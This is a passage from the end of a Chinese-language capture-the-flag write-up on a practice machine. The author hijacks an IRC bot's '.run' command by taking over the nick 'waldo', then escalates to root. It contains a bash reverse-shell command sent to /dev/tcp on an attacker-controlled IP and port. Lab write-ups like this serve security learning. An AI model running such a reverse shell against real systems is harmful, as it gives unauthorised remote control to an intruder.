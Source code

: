 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1gUTSMO9YRLGMvMtAXOapjANSqdDQDcLQ4asJldPiaFGypxicy9kndeWQ/640?wx_fmt=png)

已经成功干掉该进程...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC10rrcfibfDVMrakSvfDZYxq28Vbp1ibjBSqSeNM2BRpRSfCcMSYkh9icUA/640?wx_fmt=png)

```
1. waldo has quit (Client exited)
 2. You are now known as waldo
 3. .run whoami
```

使用 / nick waldo 命令将其名称快速更改为它的名字，并执行. run 命令...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1L1GrOAEt7dmZskiavE98lSEQ1hia7ia2hxcHNQYW32cMdO7AVjnrWKgag/640?wx_fmt=png)

```
.run bash -c "bash -i >& /dev/tcp/192.168.182.149/6666 0>&1"  （前面就已经分析过了run可以执行...）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC16Igc3ibqCSnxyh1q3fpUd9WYSx2ObVcZ5bGNwLswCFtadpcQmFib1HRQ/640?wx_fmt=png)

```
开启nc服务后，获得wallaby用户权限，sudo提权即可...HexChat命令：[链接](https://sopel.chat/usage/commands/)
```

这台靶机很舒服，用了 Metasploit、php、python、DirtyCow、IRSSI、HexChat 来拿下这台靶机... 学到非常非常非常多的知识，感谢这台靶机的作者！！！

写完这篇又不知不觉到了凌晨 2 点... 我写得目的就是让我自己记得更深，更加理解一些原理... 加油！！

由于我们已经成功得到 root 权限和 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/eYQPCtdp52LibNkiaf6uEFlNLBXkYNLkGrreELUwooJCbCCre3PNVwyB7MD0We5GB7C1iao7ZNneayc3PxQD0iaAmg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)